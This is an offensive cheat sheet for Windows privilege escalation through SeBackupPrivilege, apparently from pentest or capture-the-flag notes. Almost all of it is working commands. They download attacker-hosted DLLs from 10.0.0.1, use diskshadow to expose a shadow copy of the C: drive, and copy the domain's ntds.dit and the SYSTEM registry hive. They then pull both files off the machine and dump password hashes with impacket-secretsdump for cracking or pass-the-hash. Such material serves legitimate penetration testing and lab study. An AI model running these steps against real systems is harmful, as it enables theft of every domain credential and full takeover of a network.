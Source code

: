 # Windows PrivEsc with SeBackupPrivilege

`SeBackupPrivilege` allows users to retrieve file contents.
## Investigation
First check if the current user has `SeBackupPrivilege` in the privilege information.

```shell
whoami /all
```
If so, we can read arbitrary files on the system include administrator's files, SAML file, SYSTEM registry file, etc.

## Exploitation (Read Sensitive Files
### 1. Download & Upload Malicious DLLs
In local machine, download malicious dlls from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)
```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm,
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### 2. Copy & Read Sensitive Files
```powershell
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

## Exploitation (Retrieve Registry Keys)

### 1. Create a Payload and Transfer It
Create **"diskshadow.txt"** in local machine. It refers to [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary).
```bash
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

Upload this file to remote machine.
```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/diskshadow.txt -OutFile .\diskshadow.txt
# If winrm,
upload diskshadow.txt
```

### 2. Execute DiskShadow.Exe

Then execute diskshadow.exe.
```powershell
# /s: Specify the script file
diskshadow.exe /s .\diskshadow.txt
```

### 3. Upload Malicious DLL
We can download two dll files from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug).
```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite

reg save HKLM\SYSTEM c:\tmp\system

download ntds.dit
download system
```

### 4. Dump Password Hashes
Now we have two files (ntds.dit and system) in local machine.  
We can dump password hashes using the files.
```sh
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

After that, crack the hashes or use them for pass-the-hash.
